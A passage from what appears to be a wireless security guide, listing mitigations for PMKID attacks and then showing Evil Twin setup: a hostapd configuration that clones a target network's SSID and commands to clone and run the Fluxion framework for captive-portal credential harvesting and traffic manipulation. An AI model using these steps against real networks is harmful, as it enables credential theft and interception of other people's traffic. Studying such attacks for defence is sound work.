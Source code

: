 ·        **Broad Compatibility**: Works against many access point implementations[[7\|7]](#fn7)

**PMKID Mitigation and Detection**:

·        **Firmware Updates**: Install latest firmware addressing PMKID vulnerabilities

·        **WIDS Integration**: Deploy wireless intrusion detection systems

·        **Strong Password Policies**: Use complex, non-dictionary passwords

·        **WPA3 Migration**: Transition to WPA3 where PMKID attacks are not applicable[[7\|7]](#fn7)

**Evil Twin and Man-in-the-Middle Attacks**

Evil Twin attacks create fake access points to capture credentials and intercept traffic:[[13\|13]](#fn13)[[14\|14]](#fn14)[[9\|9]](#fn9)

**Evil Twin Attack Implementation**:

**Basic Evil Twin Setup**:

# Create fake access point  
hostapd evil_twin.conf  
  
# evil_twin.conf content:  
interface=wlan0mon  
driver=nl80211  
ssid=TargetNetwork  
hw_mode=g  
channel=6  
  

**Advanced Evil Twin with Captive Portal**:

# Complete evil twin framework using Fluxion  
git clone https://github.com/FluxionNetwork/fluxion.git  
cd fluxion  
./fluxion.sh  
  
# Follow interactive setup for:  
# - Target network selection  
# - Captive portal creation   
# - Credential harvesting  
# - Traffic manipulation  
  